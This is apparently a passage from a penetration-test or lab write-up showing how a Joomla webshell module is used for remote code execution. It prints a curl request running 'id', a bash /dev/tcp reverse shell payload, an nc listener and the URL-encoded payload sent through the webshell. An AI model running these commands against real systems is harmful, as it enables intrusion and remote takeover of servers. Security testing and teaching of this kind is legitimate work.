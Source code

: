 ![evidence](./static/19-joomla-webshell.png)

Then I can see the message:
```
...SNIPPED...
Installation of the module was successful.
...
```
When I use the `curl` command:
```shell
$ curl -X POST \
> 'http://192.168.2.25/joomla/modules/mod_webshell/mod_webshell.php' \
> --data "action=exec&cmd=id"

{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n",
"stderr":"","exec":"id"}
```
Then it works, I can perform an RCE, when I structure the following reverse shell payload:
```shell
bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I use the `curl` command:
```shell
$ curl -X POST \
> 'http://192.168.2.25/joomla/modules/mod_webshell/mod_webshell.php' \
> --data "action=exec&cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/
> 192.168.2.31/1234%200>%261'"
```
Then it works:

![evidence](./static/20-reverseshell.png)
